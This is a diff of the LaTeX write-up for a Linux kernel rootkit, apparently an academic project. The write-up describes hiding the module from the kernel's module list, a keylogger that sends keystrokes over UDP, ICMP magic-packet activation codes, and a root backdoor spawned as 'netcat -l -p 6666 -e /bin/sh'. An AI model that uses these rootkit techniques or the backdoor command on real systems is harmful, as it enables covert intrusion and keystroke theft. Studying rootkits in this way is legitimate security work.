

Before and after one commit to soad003/rootkit, a LaTeX document (documentation.tex): two parts of pages 6 and 8 of 11, joined at a grey line, cut so that both start at the same text, the shorter picture padded with empty space. Compiled offline with pdfLaTeX.

Commit message:
corrections

```diff
--- a/documentation.tex
+++ b/documentation.tex
@@ -53,7 +53,8 @@
   escapeinside={\%*}{*)},          % if you want to add LaTeX within your code
   keywordstyle=\color{blue},       % keyword style
   stringstyle=\color{mymauve},      % string literal style
-  language=C
+  language=C,
+  numbers=left
 }
 %\usepackage{times} % Uncomment to use the Times New Roman font
 
@@ -65,7 +66,14 @@
 
 
 \author{Clemens \textsc{Brunner}\\
-        Michael \textsc{Fröwis}} % Author name
+        Michael \textsc{Fröwis} \\
+        \\
+        \\
+	supervised by \\
+	Matthias \textsc{Gander} \\ \\} % Author name
+
+
+
 
 
 \date{\today} % Date for the report
@@ -147,12 +151,7 @@ struct module {
          /* Unique handle for this module */
          char name[MODULE_NAME_LEN];
 
-         .
-         .
-         .
-
          // skipped for brevity
 }
-
 \end{lstlisting}
 
@@ -162,10 +161,8 @@ That means to hide the module from detection we only need to delete it from the
 	list_del(&(__this_module.list));
 \end{lstlisting}
 
-
-
 \subsection{Backdoor}
-The dream of every attacker is a backdoor into every system he is interested in. As we have already compromised the system in our scenario and have gained root access (installation of the rootkit) the task of spawning a backdoor to gain access to the system any time we want is rather easy. What we also wanted to achieve is that the backdoor is not active all the time but can be activated whenever needed. Again magic packets, as described in \ref{sec:magicpackage} are used to activate the backdoor. The backdoor itself is achieved by simply spawning a \shellcmdinline{netcat -l -p 6666 -e /bin/sh} process in userland. This is done via the \shellcmdinline{call\_usermodehelper} function. Listing \ref{backdoor} shows the spawning function.
+For an adversary it proves to be beneficial to have immediate access to a system. Our initial assumption was that we have already compromised the system, i.e. have a rootshell. Hence, to ease re-entry to the system it is essential to install a backdoor, which turns out to be trivial. What we also wanted to achieve is that the backdoor is not active all the time but can be activated whenever needed. Again magic packets, as described in \ref{sec:magicpackage} are used to activate the backdoor. The backdoor itself is created by leveraging netcat, via the following command: \shellcmdinline{netcat -l -p 6666 -e /bin/sh} in userland (ring 3). This is done via the \shellcmdinline{call\_usermodehelper} function. Listing \ref{backdoor} shows the spawning function.
 
 \begin{lstlisting}[caption=Span netcat in userland., label=backdoor]
 void shell_tasklet_fn(unsigned long data){
@@ -179,7 +176,7 @@ void shell_tasklet_fn(unsigned long data){
 }
 \end{lstlisting}
 
-The hard part was not the creation of the process itself but doing it inside of an interrupt handler (reception of magic packet). Many functions can not be called safely (long running functions and so on) inside the context of an interrupt. Because of that we used the tasklet API to defer the execution of \shellcmdinline{call\_usermodehelper} to a save point in time into the kernel context. Listing \ref{tasklet} shows the usage of the tasklet API to start the \shellcmdinline{shell\_tasklet\_fn} in a deferred and safe manner.
+The hard part was not the creation of the process itself but doing it inside of an interrupt handler (reception of magic packet). Many functions can't be called safely (long running functions and so on) inside the context of an interrupt. Because of that we used the tasklet API to defer the execution of \shellcmdinline{call\_usermodehelper} to a save point in time into the kernel context. Listing \ref{tasklet} shows the usage of the tasklet API to start the \shellcmdinline{shell\_tasklet\_fn} in a deferred and safe manner.
 
  \begin{lstlisting}[caption=Tasklet API., label=tasklet]
 DECLARE_TASKLET(shell_tasklet, shell_tasklet_fn, 0);
@@ -218,24 +215,15 @@ unregister_keyboard_notifier(&keyboard_notifier);
 
 
 \subsection{Networking and Activation}
-In the best case our rootkit should run without being detected and without leaving any traces on the attacked system. To do so we don't log keystrokes to file but send them over the network. We used so called magic packets for the activation and deactivation of a service. A magic packet should be a packet which is hard to detect or in other words a packet that is not easily distinguishable from normal packets. Our magic packets are normal ping request with the anomaly that the icmp header field id is equal to the icmp code field. If we intercept a magic packet we compare the code with our predefined de/activation codes.
+Ideally our rootkit runs without being detected and without leaving any traces on the attacked system. To do so we don't log keystrokes to file but send them over the network. We used so-called magic packets for the activation and deactivation of a service. A magic packet should be a packet which is hard to detect or in other words a packet that is not easily distinguishable from normal packets. Our magic packets are normal ping request with the anomaly that the icmp header field id is equal to the icmp code field. If we intercept a magic packet we compare the code with our predefined de/activation codes.
 \label{sec:magicpackage}
 \newline Communication-wise two different types of packets are used.
 \begin{itemize}
 	\item ICMP Packets (for the activation packets)
-	\item UDP Sockets (sending keystrokes)
+	\item UDP (sending keystrokes)
 \end{itemize}
 \subsubsection{ICMP Packets}
-Magic packets can activate(deactivate) the keylogger, hide(unhide) the rootkit module or open a backdoor shell with root access. The following values are used for code and id to assign the desired functionality.
-\begin{itemize}
-	\item[122:] \lstinline{KEYLOGGER_ACTIVATION_CODE}
-	\item[123:] \lstinline{KEYLOGGER_DEACTIVATION_CODE}
-	\item[124:] \lstinline{HIDEMODULE_ACTIVATION_CODE}
-	\item[125:] \lstinline{HIDEMODULE_DEACTIVATION_CODE}
-	\item[126:] \lstinline{BACKDOOR_ACTIVATION_CODE}
-\end{itemize}
-
-
+Magic packets can activate (deactivate) the keylogger, hide (unhide) the rootkit module or open a backdoor shell with root access. The following values are used in the code to identify the desired functionality: 122 - activate keylogger, 123 - deactivate keylogger, 124 - hide module, 125 - unhide module, 126 - open backdoor.
 
 To intercept the packets a new \lstinline{netfilter_hook} is added with the netfilter library, see Listing \ref{netfilter}.
 \begin{lstlisting}[caption=Netfilter Hook, label=netfilter]
```
Also changed, not shown: README.md, documentation.pdf, documentation.tex (23 more changed lines), 6 other files.
